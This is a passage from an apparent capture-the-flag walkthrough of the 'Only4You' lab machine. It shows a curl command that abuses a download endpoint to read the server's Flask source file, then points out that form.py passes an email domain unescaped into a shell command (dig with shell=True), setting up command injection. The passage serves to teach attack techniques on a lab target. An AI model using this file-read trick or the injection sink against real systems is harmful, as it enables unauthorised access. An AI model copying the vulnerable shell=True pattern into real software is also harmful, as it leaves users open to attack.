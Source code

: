 ```
        listen 80;
        server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
```

From there, I make the assumption that if `beta.only4you.htb` is using Flask with an `app.py`, its likely that the main site has an `app.py` as well:

```
kali@kali:~$ curl --output - http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/app.py"    
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

<snip>
```

This block is importing `sendmessage` from `form.py`, so let's look at this function to see if there is anything interesting.

Sure enough, there's this interesting chain:

```python
from subprocess import PIPE, run

def sendmessage(email, subject, message, ip):
        status = issecure(email, ip)


def issecure(email, ip):
        if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
                return 0
        else:
                domain = email.split("@", 1)[1]
                result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```
